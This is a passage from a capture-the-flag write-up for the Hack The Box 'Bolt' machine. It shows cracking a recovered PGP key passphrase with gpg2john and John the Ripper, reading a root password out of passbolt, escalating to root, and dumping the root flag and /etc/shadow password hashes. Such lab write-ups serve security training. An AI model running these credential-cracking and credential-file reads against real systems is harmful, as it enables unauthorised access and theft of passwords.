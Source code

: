 The first private key have some invalid characters, so lets export the last one, format it correctly and write it to a file, `eddie-private.asc`.

```bash
┌──(void㉿void)-[/htb/bolt]
└─$ sed -i 's/\\\\r/\n/g' eddie-private.asc && sed -i 's/\\\\n//g' eddie-private.asc
```

<br>

Loading the Private PGP in the revocery page forwards us to the next step where we are prompted to enter the passphrase. Trying all three previously recovered passwords give nothing however.

![[Pasted image 20211112105222.png]]

---------

<br>

### Step 3

Crack the Private PGP! 

```bash
┌──(void㉿void)-[/htb/bolt]
└─$ gpg2john eddie-private.asc > eddie-private.hash                   

File eddie-private.asc

┌──(void㉿void)-[/htb/bolt]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=gpg eddie-private.hash                                                                   
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])

[...snip...]

merrychristmas   (Eddie Johnson)
1g 0:00:06:38 DONE (2021-11-12 11:08) 0.002507g/s 107.4p/s 107.4c/s 107.4C/s mhines..menudo
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

With the cracked password we are now able to access the passbolt app and can view the password for the application **root user** (**`Z(2rmxsNW(Z?3=p/9s`**).

![[Pasted image 20211112111055.png]]

Escalate to root, and grab the flag.

```bash
Password: 
root@bolt:/home/eddie# cat /root/root.txt
182bf942f16b38f705a6375aafd98fa7
```
```bash
root@bolt:/home/eddie# cat /etc/shadow
root:$6$gID7DRyUwzMW69Ul$209oMxMiaHmg1iiIbvO0z7Z7Twe./PKnGZKede1XYfsqynZ/xLN5jAmtwMLFWpFLeV6vf8YSVsj87Q5zkbudX.:18879:0:99999:7:::
eddie:$6$hr9Mpb1gVh69X761$BBw9u5yqbhdMyhic/GDq.aRHBErqOw7d/uYrNOnzOtgBoiXz4HSdU1l2jzRxSa6PJMiNSQ6cGx1YtIUtqXboo/:18692:0:99999:7:::
clark:$6$W85bOWcfI3balSJ3$tT0hU4y9FeMhu9nlu8CRFt9RiQwO0VEWqA3oVNJWbR63/lO3YJIN1lKe5UdxrencyWBvbClv2LwqGtW6ZeDuk1:18683:0:99999:7:::
```
